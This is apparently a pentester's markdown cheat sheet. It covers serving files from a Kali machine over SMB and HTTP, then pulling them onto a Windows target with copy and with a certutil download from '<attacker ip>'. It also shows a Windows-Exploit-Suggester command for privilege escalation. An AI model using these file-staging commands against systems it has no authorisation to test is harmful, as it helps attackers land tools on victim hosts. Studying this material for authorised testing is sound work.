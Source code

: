 # file share

## smb  
kali  
```$sudo python3 smbserver.py EVIL .```  
windows  
```copy \\<your ip>\EVIL\<filename>```
## http   
kali  
```$sudo python -m SimpleHTTPServer 80```  
windows  
```certutil.exe -urlcache -split -f http://<attacker ip>/<file> <store file name>```   

参考  
kali  
```$locate <target_filename>```





# prv escalation
- windows-privilege-suggester.py  
https://github.com/AonCyberLabs/Windows-Exploit-Suggester   
```$ ./windows-exploit-suggester.py --database 2014-06-06-mssb.xlsx --systeminfo win7sp1-systeminfo.txt ```
